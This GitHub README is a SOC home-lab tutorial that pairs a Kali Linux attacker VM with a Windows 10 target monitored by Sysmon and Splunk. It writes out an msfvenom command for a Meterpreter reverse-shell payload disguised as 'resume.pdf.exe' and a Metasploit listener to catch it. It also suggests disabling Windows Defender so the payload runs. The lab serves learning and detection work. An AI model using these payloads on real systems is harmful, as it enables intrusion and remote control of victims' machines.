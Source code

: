 # SOC Home Lab: Attack & Defense Simulation

---

## 📌 Table of Contents

1. [Introduction](#introduction)
2. [Prerequisites](#prerequisites)
3. [Network Topology](#network-topology)
4. [Step 1: Setting Up Virtual Machines](#step-1-setting-up-virtual-machines)
5. [Step 2: Installing Splunk for Log Monitoring](#step-2-installing-splunk-for-log-monitoring)
6. [Step 3: Installing Sysmon on Windows 10](#step-3-installing-sysmon-on-windows-10)
7. [Step 4: Generating Malware with msfvenom](#step-4-generating-malware-with-msfvenom)
8. [Step 5: Setting Up a Metasploit Listener](#step-5-setting-up-a-metasploit-listener)
9. [Step 6: Monitoring Logs with Splunk](#step-6-monitoring-logs-with-splunk)
10. [Troubleshooting](#troubleshooting)
11. [Next Steps & Future Improvements](#next-steps--future-improvements)
12. [How to Contribute](#how-to-contribute)
13. [Conclusion](#conclusion)

---

## 📌 Introduction

This project demonstrates the setup of a home lab environment for cybersecurity testing, including:

- **Attacker Machine** → Kali Linux
- **Target Machine** → Windows 10 VM
- **Logging System** → Splunk for monitoring malicious activities

Key activities include:
- Setting up virtual machines
- Installing and configuring Sysmon for log collection
- Deploying malware using `msfvenom`
- Monitoring attacks using Splunk

---

## 🔧 Prerequisites

| Requirement                | Description                                  |
|----------------------------|----------------------------------------------|
| **RAM**                    | At least **16GB** (to run multiple VMs)     |
| **Virtualization Software** | VMware Workstation or VirtualBox            |
| **Operating Systems**       | ISO files for Windows 10 and Kali Linux     |
| **Logging Tools**           | Splunk and Sysmon setup files               |
| **Internet Connection**     | Required for downloading and configuring tools |

---

## 🎬 Network Topology Animation

Click below to view the **interactive network diagram**:

➡️ ![View Animation](animation.svg)

📌 *The Kali Linux machine attacks the Windows VM, and logs are collected by Splunk for analysis.*

---

## Step 1: Setting Up Virtual Machines

### 🖥️ 1.1 Install Kali Linux (Attacker Machine)

1. Download **Kali Linux ISO** from [Kali Official Website](https://www.kali.org/downloads/).
2. Create a new VM in VMware/VirtualBox and install Kali Linux.
3. Update and upgrade Kali:
   ```bash
   sudo apt update && sudo apt upgrade -y
   ```

### 🖥️ 1.2 Install Windows 10 (Target Machine)

1. Download Windows 10 ISO from [Microsoft's website](https://www.microsoft.com/en-us/software-download/windows10ISO).
2. Create a new VM and install Windows 10.
3. Ensure **networking is enabled** for communication between VMs.

---

## Step 2: Installing Splunk for Log Monitoring

1. Download **Splunk Free** from [Splunk Website](https://www.splunk.com/).
2. Install Splunk on your Windows 10 VM.
3. Start Splunk and log in with admin credentials.
4. Enable **data collection** for monitoring logs.

---

## Step 3: Installing Sysmon on Windows 10

1. Download Sysmon from [Microsoft Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon).
2. Download a pre-configured `sysmonconfig.xml` from [Sysmon Modular](https://github.com/olafhartong/sysmon-modular).
3. Open **PowerShell as Administrator** and run:
   ```powershell
   cd "C:\Users\Downloads\sysmon"
   .\sysmon64.exe -i sysmonconfig.xml
   ```
4. Verify Sysmon is running:
   ```powershell
   Get-Process sysmon64
   ```

---

## Step 4: Generating Malware with msfvenom

On Kali Linux, generate a malicious executable:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=4444 -f exe -o resume.pdf.exe
```
📌 *This creates `resume.pdf.exe`, which acts as our payload.*

---

## Step 5: Setting Up a Metasploit Listener

1. Open Metasploit on Kali:
   ```bash
   msfconsole
   ```
2. Configure the listener:
   ```bash
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST <Attacker_IP>
   set LPORT 4444
   exploit
   ```
3. Deploy `resume.pdf.exe` on Windows 10 and execute it.
4. If successful, you gain a Meterpreter session:
   ```bash
   meterpreter > sysinfo
   ```

---

## Step 6: Monitoring Logs with Splunk

1. Open Splunk and search for unauthorized activity:
   ```
   index=main sourcetype=WinEventLog:Security
   ```
2. Identify anomalies related to unauthorized access.
3. Create alerts to detect suspicious behavior.

---

## 🔍 Troubleshooting

### ❌ Metasploit Handler Not Receiving a Session
- Ensure Windows Defender is **disabled** to prevent blocking the payload.
- Double-check **LHOST and LPORT settings** in both `msfvenom` and `msfconsole`.
- Run the payload on Windows as **Administrator**.

### ❌ Splunk Not Logging Events
- Verify Sysmon is correctly installed and running.
- Ensure Windows Event Logging is enabled in Splunk.
- Restart Splunk and recheck the event index.

---

## 🎯 Next Steps & Future Improvements

✔️ Integrate **ELK Stack** for enhanced log analysis.
✔️ Automate attack execution using **Python scripts**.
✔️ Implement **Wazuh SIEM** for better threat detection.

---

## 🤝 How to Contribute

Interested in improving this project? Contributions are welcome!

1. Fork the repository.
2. Create a new branch with your improvements.
3. Submit a pull request for review.

---

## 🎯 Conclusion

This project demonstrates how to:

- Set up a cybersecurity home lab 🏠
- Deploy and detect malware 🔍
- Use Splunk for threat monitoring ⚠️

> **Note:** This is for educational purposes only. Do not use these techniques for unauthorized activities.

### 📌 Connect with Me:
- [LinkedIn](https://www.linkedin.com/in/wasim-hassan-030b80349/)
